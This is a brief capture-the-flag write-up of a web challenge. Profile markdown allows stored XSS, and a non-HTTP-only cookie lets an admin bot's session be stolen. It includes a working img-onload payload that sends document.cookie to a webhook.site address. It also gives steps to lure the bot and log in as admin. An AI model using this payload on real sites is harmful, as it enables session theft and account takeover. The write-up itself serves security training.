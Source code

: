 ### Author: Tinius

## Description

When you visit the website you are asked to create a user and a profile with markdown.

THe markdown is vulnerable to XSS and the cookie is not HTTP only so it can be extracted using js.

### Example Payload:
```markdown
<img src="https://buddy.no/app/uploads/2019/06/kattunge-i-menneskehand.jpg" onload="this.src='https://webhook.site/f2975371-81e1-4dea-af66-ba99314ea378?cookie='+document.cookie;">
```

After uploading the payload you need to ask the bot to "rate my profile" or "check out my profile".

The "admin" will then visit your profile and the payload will be executed.
You can then steal the cookie and login as the admin that has the flag on his profile.
